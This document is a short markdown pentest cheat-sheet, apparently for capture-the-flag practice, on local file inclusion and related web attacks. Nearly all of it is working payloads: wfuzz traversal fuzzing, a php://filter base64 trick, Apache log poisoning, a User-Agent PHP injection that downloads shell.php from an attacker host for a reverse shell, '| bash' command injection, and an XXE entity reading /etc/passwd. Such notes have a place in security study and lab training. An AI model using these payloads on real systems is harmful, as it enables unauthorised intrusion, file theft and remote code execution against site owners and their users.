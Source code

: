 ```yaml
---
title: LFI 🎃
---
```


- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

---

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```

---

- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index
```

- Check out the &ext variable and put it empty because it won't get the file extension

---

- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```

---

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

---

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want